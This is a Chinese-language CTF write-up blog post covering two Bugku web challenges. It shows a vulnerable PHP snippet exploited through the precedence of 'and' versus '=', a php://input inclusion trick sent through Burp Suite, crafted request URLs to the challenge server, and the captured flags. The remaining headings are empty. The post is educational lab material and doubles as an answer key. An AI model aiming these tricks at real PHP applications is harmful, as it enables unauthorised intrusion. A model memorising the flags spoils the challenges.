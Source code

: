 ```yaml
---
layout:     post
title:      新BugKu平台web题writeup
subtitle:   新Bugku平台，又名newbugku，打靶CTF，CTF_论剑场。包含题目web26、web1、web9、流量分析、web2、web5、web6、web11、web13、日志审计、web18、web20、web3、web4、web15、web14、web21、web23、web7。
date:       2020-06-18
author:     HouKC
header-img: img/post-bg-coffee.jpeg
catalog:    true
tags:
    - CTF
    - web
    - writeup
    - 网络安全
---
```


## web26
```php
<?php
$num=$_GET['num'];
$str=$_GET['str'];
show_source(__FILE__);
if (isset($num)&&isset($str)) {
    if (preg_match('/\d+/sD',$str)) {
        echo "vagetable hhhh";
        exit();
    }
    $result=is_numeric($num) and is_numeric($str);
    if ($result) {
        include "flag.php";
        echo "$flag";
    }
    else{
        echo "vagetablessssss";
    }
} 
```
可以看出需要get请求带两个参数num和str，根据preg_match('/\d+/sD‘,$str)可知是匹配，当str为数值(\d+)时就会匹配到。

s是.匹配符可以匹配换行，以及D是如果有$结尾，则不允许结尾换行。这两个与本题没什么关系，反正就是匹配数值，str不是数值就行。

然后我们又在这行$result=is_numeric($num) and is_numeric($str);发现了php逻辑运算符and，由于php中**and**的优先级比 **=** 低，所以会先将is_numeric($num) 的值赋值给result，这里只要保证num是数值，那么不管str是不是数值，也就是不管is_numeric($str)是真还是假，result都是真。

因此构造url为：
```
http://123.206.31.85:10026/?num=123&str=abc
```
即可返回flag
```
?> No No No Don't want to go back the door!!!flag{f0058a1d652f13d6}
```


## web1
审计图片里的代码，可以分析到需要get请求带两个参数，一个是a，一个是b，b要传一个文件，但这里我们利用php://input可以从http请求中读取。

我们随便给a一个值，比如1，然后给b的值是php://input，接着我们用burpsuite抓包，补充上准备给php://input读取的值，写在http请求中。

get请求链接如下：
```
http://123.206.31.85:10001/?a=1&b=php://input
```
bp抓包后修改如下：
![web1-bp抓包](https://raw.githubusercontent.com/HouKC/houkc.github.io/master/img/web1-bp.png)
即可收到返回的flag

```
flag{c3fd1661da5efb989c72b91f3c378759}
```


## web9



## 流量分析
## web2
## web5
## web6
## web11
## web13
## 日志审计
## web18
## web20
## web3
## web4
## web15
## web14
## web21
## web23
## web7